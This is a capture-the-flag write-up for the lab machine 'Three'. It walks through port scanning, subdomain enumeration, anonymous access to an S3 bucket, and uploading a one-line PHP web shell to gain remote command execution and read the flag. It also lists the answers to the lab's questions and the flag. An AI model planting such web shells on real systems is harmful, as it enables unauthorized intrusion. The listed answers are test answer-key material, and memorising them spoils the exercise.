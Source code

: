 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Three

## <mark style="color:blue;">Description</mark>

* **Tier **<mark style="color:green;">**->**</mark>** 1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags **<mark style="color:green;">**->**</mark> Cloud / Custom Applications / AWS / Reconnaissance / Web Site Structure Discovery\
  &#x20;             Bucket Enumeration / Arbitrary File Upload / Anonymous-Guest Access

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>



## <mark style="color:blue;">Write-up</mark>

* We start doing an initial scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p- -Pn --min-rate 2000 10.129.246.158
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

***

* With this we can answer the first question

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

> Answer: **2**

***

* Now we make an exhaustive scan

{% code lineNumbers="true" %}
```basic
nmap -p22,80 -sVC 10.129.246.158
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

***

* As it has a http service running on port 80 we know it is a web page, and we can go check it on the browser

<figure><img src="../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

***

* As we navigate through the page, in the contact section we find some information, specially an email with a curious domain

<figure><img src="../../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research we can answer the some questions

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

> Answer: _**thetoppers.htb**_

***

<figure><img src="../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>

> Answer: _**/etc/hosts**_

***

* Now we can add the domain to our known domains editing the _/etc/host_ fastly with the help of _echo_ and _tee_ commands. Then we check the content have been saved correctly

{% code lineNumbers="true" %}
```bash
echo "10.129.246.158 thetoppers.htb" | sudo tee -a /etc/hosts
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

***

* Now we can make use of the _gobuster_ tool to enumerate the domain with fuzzing, specifically we can check if exist any related subdomain. After the operation has fisnished we find the subdomain _s3.thetoppers.htb_ and with a little research we can know it is a cloud database on amazon servers.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster vhost -u http://thetoppers.htb/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

***

* With this information and some reasearch abour the amazon service we can answer some questions

<figure><img src="../../../.gitbook/assets/image (239).png" alt=""><figcaption></figcaption></figure>

> Answer: _**s3.thetoppers.htb**_

***

<figure><img src="../../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Amazon S3**_

***

<figure><img src="../../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

> Answer: _**awscli**_

***

<figure><img src="../../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

> Answer: _**aws configure**_

***

<figure><img src="../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

> Answer: _**aws s3 ls**_

***

* We also add the discovered  subdomain to the well-known host list

{% code lineNumbers="true" %}
```bash
echo "10.129.246.158 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

***

* Now we can try to connect to the S3 service with the _awscli_ utility. First we configure the tool, in this case we indicate that it will be a temporary connection with the _temp_ value (This are also the default credentials for aws connections).

<figure><img src="../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>

***

* Now we try to list the S3 bueckets elements and we find one named _thetoppers.htbd_

<figure><img src="../../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

***

* We try listing the bucket elements and we find a _index.php_ file, which is the main code file with which have been constructed the web page.

<figure><img src="../../../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

***

* With this we can answer the next question

<figure><img src="../../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

> Answer: _**PHP**_

***

* Then, as we have connection to the S3 instance we can try to upload a custom file to the bucket with a payload to gain Remote Command Execution, so we create a _Shell.php_ file for this purpose.

{% code lineNumbers="true" %}
```bash
sudo nano Shell.php
```
{% endcode %}

{% code title="Shell.php" lineNumbers="true" %}
```php
<?php system($_GET["cmd"]); ?>
```
{% endcode %}

***

* Then we upload the file to the bucket, and check it listing the contents of the bucket again

{% code overflow="wrap" lineNumbers="true" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp Shell.php s3://thetoppers.htb
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

***

* If we access to the bucket from the browser and try sending a comand as value with the parameter _cmd_ it will excute it, we have gained RCE.&#x20;

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

***

* If we go and check the _/var/www_ folder where normally is saved the information of web sites, we can see there is a _flag.txt_ file.

<figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

***

* Finally we check the content of the file.

<figure><img src="../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

***

* With this we have got the root flag and have pawned the machine

<figure><img src="../../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

> Answer: _**a980d99281a28d638ac68b9bf9453c2b**_

